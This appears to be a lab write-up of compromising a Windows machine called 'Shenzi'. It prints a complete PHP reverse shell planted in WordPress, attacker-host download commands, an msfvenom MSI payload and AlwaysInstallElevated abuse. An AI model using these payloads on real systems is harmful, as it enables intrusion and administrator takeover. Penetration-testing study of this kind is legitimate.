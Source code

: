 ```yaml
---
description: Privilege Escalation using AlwaysInstallElevated
---
```


# Shenzi

## Summary

* Guest users had access to `/shenzi` directory via SMB.
* Within this directory, I found a `password.txt` file containing the credentials for a WordPress site hosted at the `/shenzi` path.
* Using these credentials, I logged into the WordPress admin panel.&#x20;
* Injected a reverse shell payload into the `404.php` page. After testing various payloads, I found that the PHP reverse shell by <mark style="color:green;">**`Ivan Sincek`**</mark> from revshell.com provided a stable connection.
* Triggering the modified `404.php` page gave me a reverse shell as a low-privileged user, allowing me to obtain the first low-privilege flag. :tada:
* To elevate privileges, I utilised `powerup.ps1` and `winPEAS` to identify potential escalation vectors.&#x20;
* _During this process, I discovered that the <mark style="color:green;">**`AlwaysInstallElevated`**</mark> setting was enabled. This Windows policy allows Windows Installer packages (.msi files) to be installed with administrative privileges._
* Leveraging this, I created a reverse shell payload embedded in a `.msi` file, uploaded it to the target machine, and installed it. This successfully granted me a reverse shell with administrator privileges, allowing me to complete the privilege escalation and achieve full control of the system.

## Execution

### Enumeration

```bash
# Nmap
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.172.55

# gobuster 
gobuster dir -u http://192.168.172.55 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 

# smbclient
smbclient //192.168.172.55/shenzi -U guest
>
smb: \> dir
  .                                   D        0  Thu May 28 21:15:09 2020
  ..                                  D        0  Thu May 28 21:15:09 2020
  passwords.txt                       A      894  Thu May 28 21:15:09 2020
  readme_en.txt                       A     7367  Thu May 28 21:15:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 21:15:09 2020
  why.tmp                             A      213  Thu May 28 21:15:09 2020
  xampp-control.ini                   A      178  Thu May 28 21:15:09 2020

# validating credentials using cme
 crackmapexec smb  192.168.172.55 -u 'admin' -p 'FeltHeadwallWight357' --continue-on-success
```



### Initial Foodhold

#### Injecting reverse shell

Updating `404.php` page to have the following PHP reverse shell

<details>

<summary>Ref Ivan Sincek shell -> <a href="https://www.revshells.com/">https://www.revshells.com/</a></summary>

```
<?php
// Copyright (c) 2020 Ivan Sincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = 'cmd';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        } else if (posix_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str_replace('<', '&lt;', $data);
        $data = str_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot read from ${name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot write to ${name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status['pid'] . "\n");
                    do {
						$status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('192.168.45.226', 4444);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

</details>

```bash
# Catching Reverse shell using NetCat
nc -nlvp 4444

# BOOM! Got a shell with low-privilege user
```

### Privilege Escalation

Using [winPEAS.exe](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) and [PowerUp.ps1 ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)to get familiar with Priv escalation vector

<pre class="language-powershell"><code class="lang-powershell"><strong># Uploading scripts to machine
</strong><strong>iwr -uri http://192.168.45.226:8000/winPEASx64.exe -outfile winPEAS.exe
</strong>iwr -uri http://192.168.45.226:8000/PowerUp.ps1 -outfile PowerUp.ps1 
</code></pre>

The above script revealed that the <mark style="background-color:red;">**AlwaysInstallElevated**</mark> setting is enabled in the Windows policy.

<pre class="language-powershell"><code class="lang-powershell">Invoke-AllChecks
>
Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI

DefaultDomainName    : SHENZI
DefaultUserName      : shenzi
DefaultPassword      : 
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons

# verifying manually
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

# both returned true
AlwaysInstallElevated    REG_DWORD    <a data-footnote-ref href="#user-content-fn-1">0x1</a>

</code></pre>

#### Exploiting to gain elevated shell

<pre class="language-sh"><code class="lang-sh"># generate payload using msfconsole
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 lport=9999 -a x64 --platform windows -f msi -o ignite.msi

# Uploading it to machine
iwr -uri http://192.168.45.226:8000/ignite.msi -outfile ignite.msi

# installing the msi 
msiexec /quiet /qn /i ignite.msi

# catching the shell using Netcat
nc -nlvp 9999

# Boom! got the <a data-footnote-ref href="#user-content-fn-2">NT AUTHORITY\SYSTEM</a> shell
</code></pre>







[^1]: 

[^2]: 
